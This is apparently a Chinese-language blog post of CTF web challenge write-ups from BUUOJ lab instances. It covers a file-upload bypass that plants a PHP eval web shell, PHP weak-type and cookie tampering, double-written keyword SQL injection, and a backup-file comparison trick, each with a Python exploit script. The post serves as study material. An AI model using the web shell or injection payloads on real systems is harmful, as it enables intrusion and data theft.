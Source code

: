 ```yaml
---
title: web刷题记录
date: 2023-04-08 17:19:47
tags:
  - CTF
  - Web
categories: Web
keywords: CTF
description: 本文记录了作者在刷CTF的Web方向题目中面临的问题以及解决方案，包含了文件上传绕过、php弱类型、sql注入绕过等知识点。
top_img: https://pic.imgdb.cn/item/647dcd821ddac507ccf5ba20.jpg
cover: https://pic.imgdb.cn/item/647dcd821ddac507ccf5ba20.jpg
# password: xdxdsqyc15511551
# message: 暂未完成，仍在施工
---
```



## [极客大挑战 2019] Upload 解题思路

1. `MIME` 绕过；修改 `content-type` 类型

2. 文件后缀检测；修改后缀名 `.phtml`

3. `<?` 检测绕过： js + php 模式；

``` html
<script language='php'>@eval($_POST['peony']);</script>
```

4. 文件头检测：添加 `GIF89a`

``` html
GIF89a <script language='php'>@eval($_POST['peony']);</script>
```

5. 确定文件上传位置：`/upload/x.phtml`

成功。

## [极客大挑战 2019] BuyFlag 解题思路

1. 发现注释中的提示：

``` html
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

![提示](https://pic.imgdb.cn/item/647c13a7f024cca173274a7a.png)

2. 使用 POST 方法提交参数 `money=100000000` 和 `password=404%00`
3. 根据提示修改 `cookie` ，将 `Cookie: user=0` 改为 `Cookie: user=1`，提交后发现长度被限制：

![反馈](https://pic.imgdb.cn/item/647c13a8f024cca173274b77.png)
4. 绕过方式：改为科学计数法：`money=1e8`。

``` POST
POST /pay.php HTTP/1.1
Host: d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7
Cookie: user=1
Connection: close

money=1e8&password=404%20
```

下面是 EXP ：

``` python
import httpx
import re

HOST = "http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81"
URL = f'{HOST}/pay.php'
DATA = {"money": "1e9", "password": "404 "}
COOKIES = {"user": "1"}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}


res = httpx.post(URL, data=DATA, cookies=COOKIES, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text) 
if match: 
    print(match.group()) 
else: 
    print("No flag found.")
```

## [极客大挑战 2019] BabySQL 解题思路

1. 将`select`、`union`、`or`、`and`、`infomation`、`where`等关键字替换为空，双写绕过即可。

``` sql
%27 || sleep(1) --+
select 1,2,3 --+
select database() --+
select group_concat(table_name) from information_schema.tables where table_schema=database() --+
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name= b4bsql --+
```

下面是 exp ：

``` python
import httpx
import re

HOST = "http://a37633c3-5c3b-4677-82e1-2270c6e28c7d.node4.buuoj.cn:81"
EVILCODE = '%27%20uunionnion%20sselectelect%201,2,group_concat(passwoorrd)ffromrom%20b4bsql%23'
URL = f'{HOST}/check.php'

params = {'username': 'admin', 'password': EVILCODE}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}

res = httpx.get(URL, params=params, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text)
if match:
    print(match.group())
else:
    print("No flag found.")
```

## [ACTF2020 新生赛] BackupFile 解题思路

1. 扫文件目录，工具很多，找到 `index.php.bak` 即可。
2. 根据 `index.php.bak` 中的注释提示:

``` php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }}
else {
    echo "Try to find out source file!";
}
?>
```

代码逻辑如下：

- 首先，它包含了一个叫做 `flag.php` 的文件，这个文件可能定义了一个变量 `$flag` ，用来存储一些敏感信息。
- 然后，它检查是否有一个名为 `key` 的 GET 参数传递给它。如果没有，它就输出"Try to find out source file!"。
- 如果有，它就把这个参数赋值给一个变量 `$key` ，并且使用 `is_numeric()` 函数检查这个变量是否是一个数字或者一个数字字符串。如果不是，它就退出并输出"Just num!"。
- 如果是，它就使用 `intval()` 函数把这个变量转换成一个整数，并且和一个字符串 `$str` 进行**弱类型比较**<sup>[①](#弱类型比较)</sup>。如果相等，它就输出 `$flag` 的值。

因此，只需要请求 `http://url/?key=123` 即可获取 flag 。

EXP 如下：

``` python
import httpx
import re

URL = "http://eac04754-4cdd-4807-b34a-bfa86186533e.node4.buuoj.cn:81"

params = {'key': '123'}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}

res = httpx.get(URL, params=params, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text)
if match:
    print(match.group())
else:
    print("No flag found.")
```

## 注释

### 弱类型比较

根据搜索结果，PHP是一种弱类型的语言，这意味着它在比较变量时会进行隐式的类型转换。PHP中有两种比较运算符：`==` 和 `===`。它们的区别是 `==` 会在比较之前将变量转换成相同的类型，而 `===` 会同时比较变量的类型和值。因此，使用 `==` 进行比较时可能会出现一些意想不到的结果，比如：

```php
<?php
$a = "0e123"; // 字符串
$b = 0; // 整数
if ($a == $b) {
    echo "true"; // 这里会输出true，因为字符串"0e123"被转换成了浮点数0.0
} else {
    echo "false";
}
?>
```

要避免这种弱类型比较的问题，可以使用 `===` 进行严格比较，或者使用一些函数来检查变量的类型，比如 `is_numeric()` , `is_int()` , `is_string()`等。